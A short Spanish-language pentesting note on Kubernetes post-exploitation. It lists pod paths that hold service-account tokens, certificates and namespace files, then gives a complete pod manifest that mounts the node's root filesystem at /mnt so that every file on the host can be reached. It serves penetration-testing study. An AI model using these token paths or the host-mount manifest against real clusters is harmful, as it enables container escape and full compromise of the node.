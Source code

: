 [[Apuntes]]

Si has accedido a un pod puedes sacar información para saltar al cluster, obtener tokens y archivos de configuración, a continuación muestro que rutas son:

- /`run/secrets/kubernetes.io/serviceccount`

- `/var/run/secrets/kubernetes.io/serviceaccount`

- `/secrets/kubernetes.io/serviceaccount`


Puede contener los siguientes archivos:

- **ca.crt**: Es el certificado que comprueba la comunicación con el kubernetes

- namespace: Indica el namespace actual

- token: contiene el servicio token del pod actual


Si fuera el caso de que hemos obtenido información suficiente en estos archivos podemos crear un pod y hacer que la raiz (/) de la máquina que queremos acceder se monte dentro de un pod en /mnt y así tener acceso a todos los archivos de el servidor kubernetes.


```
apiVersion: v1
kind: Pod
metadata:
  name: j4ckie-pod
  namespace: default
spec:
  containers:
  - name: j4ckie-pod
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
```

En hacktrickz tiene una cheat sheet genial que nos puede servir de ayuda -->
[Kubernetes EnumerationHackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration)